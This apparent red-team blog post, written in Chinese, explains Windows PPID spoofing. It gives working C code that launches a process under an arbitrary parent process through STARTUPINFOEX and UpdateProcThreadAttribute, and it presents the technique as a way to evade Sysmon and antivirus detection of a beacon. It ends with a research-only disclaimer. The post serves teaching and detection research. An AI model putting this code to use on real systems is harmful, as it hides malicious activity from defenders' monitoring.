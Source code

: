 ```yaml
---
title: 红蓝对抗-PPID欺骗
date: 2022-10-25
categories: [红蓝对抗]
tags: [红蓝对抗][Windows]
---
```


## 0X00 PPID欺骗介绍

在我们使用`CreateProcess `API时，默认情况下，最后的进程将作为调用方的子进程生成。然而，"PPID欺骗"技术允许调用者更改派生进程的父进程。所以如果我们的`beacon`运行在`powershell`中，我们可以就将进程派生到一个完全不同的进程的子进程中，比如`explorer.exe` 。在默认情况下，大多数需要用户交互启动的程序都是由`explorer.exe`生成的。

这将导致`Sysmon`等应用程序记录新父级下的进程创建。当一个`beacon`在一个不合法的进程中运行(例如横向移动或其他一些漏洞传递)，并且进程创建事件会被杀软检测或被完全阻止，那么这个方法可以用来对抗这种检测。

## 0x01 进程、PID和PPID

**进程：**在 `Windows` 中，应用程序由一个或多个进程组成。简单来说，当前正在运行的程序的一部分称为进程。不同的应用程序可能会使用相同的进程(如`cmd.exe`)，并且为避免歧义，会分配一个整数来区分一个进程和另一个进程。该整数称为`PID`。

**PID：**代表进程标识符 (`PID`)，它是正在运行的进程的数字表示。`Windows` 中通过 `GetCurrentProcessID()` 函数返回指定进程的 `PID`。

**父进程：**父进程是可以派生多个子进程的进程。例如，命令`explorer.exe /e,/root,"C：\WINDOWS\System32\cmd.exe"`将派生`cmd.exe`作为父进程`explorer.exe`的子进程。在代码中，父进程可以使用`fork()`系统调用来派生子进程。

**PPID：**代表父进程标识符(`PPID`)，它是提供给父进程的数字表示形式。任何包含子进程的进程都存在父子关系。

## 0x02 技术实现

这个技术是在[STARTUPINFOEX](https://learn.microsoft.com/zh-cn/windows/win32/api/winbase/ns-winbase-startupinfoexw) 结构中实现的，这个结构具有`LPPROC_THEAD_ATTRIBUTE_LIST`属性。这允许我们向`CreateProcess`调用传递附加属性。对于PPID欺骗，我们关注的`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`。`lpValue`参数是指向要使用的进程句柄的指针，而不是将调用进程用作正在创建的进程的父进程。要使用的进程必须具有`process_CREATE_process`访问权限。 

下面用一段简短的代码来实现获取父进程PID和初始化

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

int main(int argc, const char* argv[])
{
	//获取父进程PID
	DWORD parentPid = atoi(argv[1]);

	//初始化
	STARTUPINFOEX sie = { sizeof(sie) };
}
```

我们需要先知道所需的大小，然后分配一个内存区域来保存属性列表。这个列表可以有多个属性，但由于我们只对`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`感兴趣，因此大小为1。所以我们调用`InitializeProcThreadAttributeList`并提供`NULL目标`，但`lpSize`变量将填充我们需要的大小。因为这个API返回`bool`，所以这个调用也将始终返回`FALSE`。

```c
SIZE_T lpSize;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpSize);
```

接下来我们使用`malloc`在`STARTUPINFOEX`的`lpAttributeList`属性上分配内存区域。我们再次调用`InitializeProcThreadAttributeList`，它应该返回`TRUE`。

```c
//为STARTUPINFOEX上的属性列表分配内存
sie.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

//再次调用InitializeProcThreadAttributeList，此时应返回TRUE
if (!InitializeProcThreadAttributeList(sie.lpAttributeList, 1, 0, &lpSize))
{
	printf("InitializeProcThreadAttributeList failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

获取父进程的句柄并将其传递到`UpdateProcThreadAttribute`的调用中。 

```c
//获取进程的句柄以充当父进程
HANDLE hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPid);

//调用UpdateProcThreadAttribute
if (!UpdateProcThreadAttribute(sie.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL))
{
	printf("UpdateProcThreadAttribute failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

剩下要做的就是调用`CreateProcess`，确保传递`EXTENDED_STARTUPINFO_PRESENT`

```c
//调用CreateProcess并传递EXTENDED_STARTUPINFO_PRESENT
PROCESS_INFORMATION pi;

if (!CreateProcess(
	L"C:\\Windows\\System32\\notepad.exe",
	NULL,
	0,
	0,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	L"C:\\Windows\\System32",
	&sie.StartupInfo,
	&pi))
{
	printf("[-] CreateProcess failed. Error code: %d.\n", GetLastError());
	return 0;
}

printf("[+] PID created: %d", pi.dwProcessId);
return 1;
```

## 0x03  实现效果

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-25/ppid_success1.jpg)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-25/ppid_success2.jpg)



## 0x04 小结

本文介绍了PPID欺骗实现原理以及怎么用Windows API 去实现

### 注：本文仅用于安全研究和学习之用